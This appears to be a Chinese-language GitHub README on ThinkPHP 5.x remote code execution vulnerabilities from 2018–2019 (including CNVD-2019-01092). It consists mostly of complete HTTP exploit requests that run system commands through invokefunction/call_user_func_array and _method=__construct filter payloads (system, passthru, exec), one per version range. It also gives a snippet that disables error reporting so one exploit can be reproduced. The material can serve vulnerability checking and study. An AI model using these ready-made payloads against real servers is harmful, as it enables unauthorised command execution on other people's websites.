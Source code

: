 # thinkphp_rce_check

## 2018年12月爆出的代码执行

ThinkPHP版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

```
GET /tp5022/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=path HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 2

```


---

## 2019年1月陆续爆出的代码执行

CNVD-2019-01092

ThinkPHP5.0.23以前的版本及5.1.x/5.2.x中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

### thinkphp 5.0.10 以下版本 

```
POST /tp5010/public/index.php?s=index/index/index HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Connection: close
Upgrade-Insecure-Requests: 1

s=whoami&filter%5B%5D=passthru&_method=__construct&method=
```

### thinkphp 5.0.23 以下版本

```
POST /tp5023/public/index.php?s=captcha HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 80

_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=whoami
或者
_method=__construct&filter[]=system&method=GET&get[]=whoami
```

### thinkphp 5.1.x/5.2.x 版本

利用条件:生产模式/即忽略异常提示，否则会报500错误

```
POST /tp5132/public/index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

c=exec&f=calc.exe&&_method=filter&
```

设置`error_reporting(0);`版本不同，位置不一样，一般在start.php或者index.php

```
// [ 应用入口文件 ]
namespace think;

// 加载基础文件
require __DIR__ . '/../thinkphp/base.php';
error_reporting(0);                                                 ----》添加这一行，即可复现
// 支持事先使用静态方法设置Request对象和Config对象

// 执行应用并响应
Container::get('app')->run()->send();
```


